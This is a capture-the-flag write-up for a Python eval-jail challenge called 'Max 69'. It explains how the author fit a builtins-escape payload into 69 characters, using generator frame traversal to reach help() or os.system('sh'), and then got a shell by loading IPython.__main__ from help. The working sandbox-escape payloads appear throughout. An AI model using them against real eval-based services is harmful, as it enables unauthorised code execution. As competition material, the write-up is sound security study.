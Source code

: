 
# Max 69

**Challenge Prompt:**

> English: This challenge is not for the faint of heart!  
> Show that you are a python whisperer!  
> Feel free to chuckle every time you see a funny number.

```python
inp = input('Gimme max 69!\n> ')
if not inp.isascii():
    quit('Give me ascii please')
if '__' in inp:
    quit('No thank you')
if len(inp) > 69:
    quit("Don't give me more than your favourite number")

eval(inp, {'__builtins__':{}}, {'__builtins__':{}})
```

---

## First thoughts

This is a part 2 of Max 420, but now we have to get it to 69 characters.

Previous solution used was:

```
(y:=[],y.append(z.gi_frame.f_back.f_back.f_builtins[f"{'_'}_import{'_'}_"]("os") for z in y), *[*y[0]][0].system("sh"))
```

Which is 119 characters.

`help` function is often used to get RCE:

```
(y:=[],y.append(z.gi_frame.f_back.f_back.f_builtins["help"]() for z in y), *[*y[0]])
```

But changing to call help we get down to 89.

---

## Doing research

So I spent time trying to find out what others have done as I couldn’t get it shorter. I went into a rabbit hole of trying to understand the scope.

I won’t go so much into details, but I realised the challenge had a “bug”

Specifically in:

```python
eval(inp, {'__builtins__':{}}, {'__builtins__':{}})
```

Correct to limit builtins would be:

```python
eval(inp, {'__builtins__':{}}, None)
```

As it really is:

```python
eval(inp, globals={'__builtins__':{}}, locals=None)
```

After time I got this working when I changed locals to None:

```
(q:=(q.gi_frame.f_back.f_back.f_builtins['help']()for _ in[0]),[*q])
```

But it does not work with the challenge as local scope is not working properly, so the generator can’t access the `q` variable when it’s running.

I assume this is the point most players would be stuck at.

---

## Finding the first solution

This section might hurt a bit to people who have spent a lot of time.

I spent a lot of time trying to find a solution and I found this archived challenge “Completely new challenge” on [Imaginary CTF](https://imaginaryctf.org/ArchivedChallenges/58)

Looking at attachment finds us this:

```python
assert ascii(x := input())[1:-1] != x.replace("__","")[:97], eval(x,{'__builtins__':{}},{'__builtins__':{}})
```

Where it uses eval in same way and also does not allow `__`.

So I decided to join Imaginary CTF Discord to see if any more discussion happened.

I searched `builtins` and found the channel and there were discussion of getting a shorter payload:

```
1in(g:=((g:=g.gi_frame.f_back.f_back.f_builtins)["exec"](g["input"]())for _ in[1]))
```

And this seems to be shortest with 83. Changing it to call help and remove unused brackets shortens it to 69:

```
1in(g:=(g:=g.gi_frame.f_back.f_back.f_builtins["help"]()for _ in[1]))
```

It works!

---

## How to get shell with help?

Next part is written as a draft, but added as time is running out.  
Will update writeup when I get time.  
But now is the other part of the challenge — how do we get shell in `help()`?

Usually this can be done with less/more, but Docker is using socat. So less/more is not used (I believe this is the reason why).

So I spend time trying to see if anything changes when I load in new modules and try to run chal again, but nothing.

So I go around searching through other modules if I can get any info.

Then I try out sage because I saw it was installed from before, and yes it’s there in the help documentation. I was peeking around and wondering why!

After messing around I see a path to `/usr/bin/python3.13/site-packges/sage` I started wondering if I could see all `site-packges`. So I enter in `site-packages` and that’s possible. I try out a bit more to see if any of them might spawn a shell.

I try out Jedi because why not, and then I see a `__main__` as part of Jedi.

So I type into help:

```
jedi.__main__
```

And there I got kicked out of nc!

Looks like it errored trying to load the file? I see in docker log and it seems to miss something trying to import.

Could this be a way to get shell?

---

## Exploring local docker

I open up a local shell to my docker instance and `cd` to site-packages path and run:

```
find . -type f -name "__main__.py"
```

And I get this entire list:

```
./sage/doctest/__main__.py
./sage/repl/ipython_kernel/__main__.py
./jedi/__main__.py
...
./IPython/__main__.py
...
```

From context, it seems like they are files for CLI!

I first tried out the ipython kernel and I got a bit stuck there, nothing useful.  
Then I saw IPython and tried that one, and that gave me a shell!

```
IPython.__main__
```

---

## 🏁 Flag

```
DDC{w4lK_Th4t_Fr4m3_bUt_h3lP_I_F0rG0t_t0_ch3ck__name__}
```

